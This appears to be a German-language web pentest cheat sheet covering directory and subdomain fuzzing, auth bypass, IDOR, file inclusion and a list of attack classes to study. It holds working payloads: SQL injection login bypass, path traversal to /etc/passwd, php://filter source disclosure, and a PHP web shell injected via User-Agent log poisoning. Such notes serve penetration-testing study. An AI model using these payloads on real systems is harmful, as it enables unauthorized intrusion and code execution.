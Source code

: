 ffuf -w /usr/share/wordlists/dirb/common.txt -u http://target/FUZZ -t 50 -e .php,.txt,.bak

gobuster dir -u http://target -w wordlist.txt -x php,html,txt -t 30

dirsearch -u http://target -e php,asp -x 403,404

- Achte auf .bak, .old, .zip, .swp, .git/, .env, backup/
- Oft kombiniert mit robots.txt, sitemap.xml, /.git/config


**Subdomain Enum**

sublist3r -d example.com

assetfinder --subs-only example.com

amass enum -d example.com

ffuf -w subdomains.txt -u http://FUZZ.example.com


- Prüfe auf *.dev, test.*, admin.*, internal.*
- SSRF, Host Header Injection oft über Subdomains möglich


**Auth Bypass**

| Methode             | Beispiel                     |
| ------------------- | ---------------------------- |
| SQLi                | `admin'--`                   |
| Logikfehler         | Eingeloggt ohne Session?     |
| Default Creds       | `admin:admin`, `test:test`   |
| Header Manipulation | `X-Forwarded-For: 127.0.0.1` |
| URL Manipulation    | `?user=admin`                |

- Burp Repeater
- hydra / wfuzz (Login bruteforce)
- ffuf (Parameter Fuzzing)


**IDOR**
GET /invoice?id=12345
→ ändern zu id=12346, 12347...

- Teste mit verschiedenen Rollen/Benutzern
- user_id=
- order=
- download=
- document=
- Burp Intruder → Sequenz von IDs testen
- ffuf -w 1000-1100 -u http://target.com/profile?id=FUZZ


**File Inclusion (LFI/RFI)**
page=../../../../etc/passwd

page=php://filter/convert.base64-encode/resource=index.php

page=data:text/plain;base64,...

- wfuzz -w payloads.txt -u http://target/page=FUZZ
- RCE-Kette: LFI + Log Injection (User-Agent: <?php system($_GET['x']); ?>)
- php://input, php://filter, expect://, data://


**Road to:**
| Kategorie             | Enthält                     |
| --------------------- | --------------------------- |
| **XSS**               | Reflected, Stored, DOM      |
| **SSTI**              | Jinja2, Twig, Velocity      |
| **Command Injection** | `;`, `&&`, \`               |
| **SQLi**              | Manual, Error-Based, Blind  |
| **SSRF**              | AWS IMDS Exploits           |
| **XXE**               | XML Injection mit File Read |
